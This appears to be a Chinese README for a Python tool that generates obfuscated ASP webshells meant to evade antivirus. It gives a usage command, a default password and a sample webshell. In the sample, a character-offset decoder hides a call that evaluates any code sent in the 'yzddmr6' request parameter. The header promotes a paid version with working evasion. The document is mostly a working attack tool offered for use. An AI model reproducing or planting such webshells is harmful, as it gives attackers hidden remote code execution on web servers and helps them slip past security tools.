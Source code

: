
# 2019.8.14 已知免杀已失效，获取星球内部版请戳

https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

## 用法


`python3 asp_venom.py > test.asp`


即在当前目录下生成test.asp

## 默认密码:yzddmr6

可自行修改

## 生成样例:

```
<%
<!--
Function Hsnh(Bjhu):
	Bjhu = Split(Bjhu,"|")
	For x=1 To Ubound(Bjhu)
		Hsnh=Hsnh&Chr(Bjhu(x)-31)
	Next
End Function
EXecutE(Hsnh("|132|149|128|139|63|145|132|144|148|132|146|147|71|65|152|153|131|131|140|145|85|65|72"))
-->
%>
```
